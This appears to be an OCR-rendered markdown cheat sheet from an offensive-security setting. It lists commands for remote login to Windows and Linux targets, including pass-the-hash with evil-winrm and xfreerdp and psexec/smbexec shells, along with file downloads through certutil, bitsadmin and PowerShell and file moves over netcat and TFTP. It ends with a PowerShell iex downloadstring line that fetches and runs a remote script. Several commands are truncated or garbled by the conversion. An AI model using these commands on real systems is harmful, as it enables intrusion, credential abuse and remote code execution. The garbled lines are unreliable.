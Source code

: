 
# Login
**Windows Login**
1: rdesktop 10.10.10.10 **(GUI)**
2: evil-winrm -u admin -p 123123 -i 10.10.10.
3: evil-winrm -u admin -H [hash] -i 10.10.10.
4: python smbexec.py admin:123123@10.10.10.10 cmd.exe
5: python psexec.py admin:123123@10.10.10.10 cmd.exe
6: xfreerdp /u:[hutch\]victim /pth:[hash] /v:10.10.10.10 **(GUI)**

**Linux Login**
1: ssh user@10.10.10.
2: ssh -i id_rsa user@10.10.10.
3: rdesktop 10.10.10.10 **(GUI)**
4: vncviewer 10.10.10.10:5901 **(GUI)**
5: ssh **- X** user@10.10.10.10 **(Some programs need GUI)**

# File Download

**Linux:**
1: wget [http://10.10.10.20[-O](http://10.10.10.20[-O) /tmp/file1]
2: curl [http://10.10.10.20-o](http://10.10.10.20-o) /tmp/file

**Windows:**
1: certutil -urlcache -split -f [http://10.10.10.20/file1](http://10.10.10.20/file1) file
2: powershell invoke-webrequest -uri [http://10.10.10.20/file1-outfile](http://10.10.10.20/file1-outfile) file
Shorter version: **powershell iwr [http://10.10.10.20/file1-o](http://10.10.10.20/file1-o) file**
3: curl [http://10.10.10.20-o](http://10.10.10.20-o) file
4: bitsadmin /transfer job [http://10.10.10.20/file1C:\users\bob\desktop\file](http://10.10.10.20/file1C:\users\bob\desktop\file)
5: powershell wget [http://10.10.10.20/file1-o](http://10.10.10.20/file1-o) file



# File Transfer
**netcat**
Sender: **nc -w 3 10.10.10.20 4444 < file**
Receiver: **nc -nlvp 4444 > file**

**TFTP (Kali as TFTP server)**
Kali: **mkdir /tftp, chown nobody: /tftp, atftpd --daemon --port 69 /tftp**
Sender: **tftp -v 10.10.10.20 (-m binary ) -c put file**
Receiver: **tftp -v 10.10.10.20 (-m binary) -c get file**

**FTP (Target as FTP server)**
Target: **Copy file** to **ftp folder** (Switch between **binary** and **ascii** mode)
Sender: **put file**
Receiver: **get file**

**Powershell (Target to Kali)**
a: **$s=New-PSSession -HostName 10.10.10.20 -UserName Kali**
b: [Password] of Kali
c: **Copy-Item .\file.txt /home/kali -ToSession $s**
powershell -c "iex (new-object system.net.webclient).downloadstring('http://10.10.16.2/1.ps1')"

